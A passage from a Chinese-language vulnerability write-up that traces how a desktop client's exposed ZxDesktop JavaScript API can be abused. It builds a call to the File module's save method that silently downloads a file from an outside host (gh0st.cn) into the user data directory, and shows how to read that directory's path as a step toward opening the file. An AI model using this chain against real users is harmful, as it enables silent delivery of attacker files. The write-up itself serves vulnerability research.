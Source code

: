 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgqQphhM3X2JnsZM5ewRX4Gx6kJRCLNHmSQTva8dUOeIOrMWAGrCjY0w/640?wx_fmt=png&from=appmsg "")  
  
接着看导出函数列表的其他项，发现存在两个文件保存的方法：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgkw9tNfYsVvRYbjwNFefUcQicYhKgLwkJJSibwbzZOiawM8HPtOPbich5FQ/640?wx_fmt=png&from=appmsg "")  
  
而它们所指向的都是另外一个模块的方法：  
```
const Download = require('../download_extra/download.render.js');
```  
  
跟进这个模块，发现实际上他们都来自同一个方法，只不过传递的参数isSelect有不同：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgBp3fauEF1O3DVfKuyiam10EHffZYkiaS7C5G63EHDv7ibFkH9rdCCnuIA/640?wx_fmt=png&from=appmsg "")  
  
接着我们来完整的阅读下代码即可发现整个逻辑，首先根据你传递的参数来判断要调用NormalDownload（正常下载）还是ChunkDownload（分块下载），接着根据isSelect函数来判断调用save还是saveAs方法：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgJVfKpyiatmIDS3SgbvvqkibLqdklL4R94oLARSbueH9iaSGl8ibLFrFLmQ/640?wx_fmt=png&from=appmsg "")  
  
所以我们仍然需要跟进NormalDownload或ChunkDownload对应的代码，来查看它们这些方法的逻辑是什么，这里看了之后，两者代码的唯一区别就是分块，所以本文就以NormalDownload的save、saveAs方法去说明。  
  
首先是saveAs方法，它会调用一个文件保存框，然后赋值调用retryStart方法：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgVlAMbMiaiaicicVDCwe3nL6gjL9cQFibJ5Gy13MDeAl50DSHoDOPNQicMzqA/640?wx_fmt=png&from=appmsg "")  
  
而实际上retryStart方法内调用的是start方法，这个方法是用来进行请求下载的：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgDShvHEj4SBzibJUPCTfXBsUZBE0eFSAbicVUG5q6fuR36RukTMOAs4HQ/640?wx_fmt=png&from=appmsg "")  
  
而后下载的文件实际上会保存在用户的数据目录下，save方法与saveAs方法的最大的不同就是没有这个文件保存框，所以我们当然选择使用save方法。  
  
需要注意，在如上代码中save和saveAs的传递参数不一致，其实这不影响最终的处理，因为在一开始的对象创建时候就通过构造函数赋值了：  
```
let downloader = new Download(file, config);
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgrEJOOvzFqkW7cj9MKthWDhg48Ta2IN2JkDNAVib7bB50oJwfLNctSMg/640?wx_fmt=png&from=appmsg "")  
  
至此，我们就获得了文件下载的攻击路径，我们可以根据对应参数这样构建JS代码：  
```
ZxDesktop.require("File").save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```  
  
我们已经获得了文件下载的功能，攻击路径就很明显了：用户下载文件，打开文件。但是实际操作中，我们打开文件还缺少一个路径，并且在实际的测试中，默认情况下，下载的文件是会保存在应用的数据目录的null目录下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgzZXxnOcMg4R6MdkaxEC5bPVTryjCG7pOyxfia0dpphwNuiaZ9AUMZAkQ/640?wx_fmt=png&from=appmsg "")  
  
而这个目录可能会被用户更改（用户名也没法获取），所以我们需要搭配一个点去获取路径，在这里找到了ZxDesktop的System模块：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTg99bdIR1Z9vpq4rwmQ2icvDicm9JOBonlbPngJicSh3m69BwlCWnCKfkfA/640?wx_fmt=png&from=appmsg "")  
  
它的导出列表中有两个属性：dbPath、userDataPath，它们的内容都是一样的，指向了用户的数据目录：  
```
ZxDesktop.require("System").userDataPath
```  
  